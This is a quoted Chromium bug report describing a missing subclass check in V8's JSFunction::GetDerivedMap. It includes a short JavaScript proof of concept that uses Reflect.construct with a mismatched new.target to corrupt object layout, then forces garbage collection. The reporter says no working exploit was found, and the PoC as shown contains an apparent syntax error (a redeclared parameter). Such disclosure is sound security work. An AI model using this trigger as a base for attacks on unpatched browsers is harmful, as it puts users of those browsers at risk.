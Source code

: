 From https://bugs.chromium.org/p/chromium/issues/detail?id=800032

There's a comment saying "Fast case, new.target is a subclass of constructor." in the JSFunction::GetDerivedMap method, but it doesn't check that "new_target" is actually a subclass of "constructor". So if "new_target" is not a subclass of "constructor", "pre_allocated" can be higher than "in_object_properties". To exploit this, it required to be able to change the value of "constructor_initial_map->UnusedPropertyFields()", but I couldn't find any way. So I'm not so sure about this part.

PoC:
function gc() {
    for (let i = 0; i < 20; i++)
        new ArrayBuffer(0x2000000);
}


class Derived extends Array {
    constructor(a) {
        const a = 1;
    }
}

// Derived is not a subclass of RegExp
let o = Reflect.construct(RegExp, [], Derived);
o.lastIndex = 0x1234;

gc();